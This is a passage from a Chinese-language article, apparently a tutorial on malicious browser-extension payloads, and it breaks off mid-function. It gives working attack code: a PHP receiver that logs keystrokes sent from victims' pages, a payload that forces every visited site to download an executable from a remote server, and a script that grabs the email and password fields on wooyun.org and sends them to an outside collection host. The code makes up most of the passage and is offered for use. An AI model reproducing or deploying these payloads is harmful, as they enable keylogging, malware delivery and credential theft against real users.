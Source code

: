 ```
    });

```

接收php文件如下，将此文件命名为data.php置于服务器上：

```
<?php
$txt = $_GET['data'];
$log = fopen("keylog.txt", "a") or die("Unable to open file!");
fwrite($log, $txt);
fclose($log);
?>

```

> 需要在服务器上建立keylog.txt,然后给777权限就可以了

加载插件以后，键盘记录启动，当用户在网页中进行键盘输入时，输入数据会发送到远程服务器。

![Alt text](http://drops.javaweb.org/uploads/images/bc47e95d8a9f785b65da2804a1fc45965013624b.jpg)

### 3、ForceDownload

强制下载文件Payload如下，此payload即安装插件以后，访问任意网站强制下载程序：

```
$(document).ready(function()
{
    var server = "http://server.com/"; //服务器
    var gate = "/test/test.exe"; //要下载的文件
    var tabURL = window.location.href;

    var link = document.createElement('a');
link.href = server+gate;
link.download = '';
document.body.appendChild(link);
link.click();    
    });

```

### 4、Get Wooyun Password

以下Payload 用于获取登陆wooyun的账号密码。

```
$(document).ready(function()
{
    var server = "http://xss9.com/"; //发送地址
    var gate = "index.php?do=api&id=xxxxx"; //接收参数
    var tabURL = window.location.href;

        if(tabURL.indexOf('wooyun.org') !== -1 )
    {
        wooyun();
    }

    function email()
    {
        var email = document.getElementsByName('email')[0].value;
        var password = document.getElementsByName('password')[0].value;
        var data = "&username="+email+"&password="+password;
        new Image().src = server+gate+data;
        //console.log("email="+email+"&password="+password)
    }
    function wooyun()
```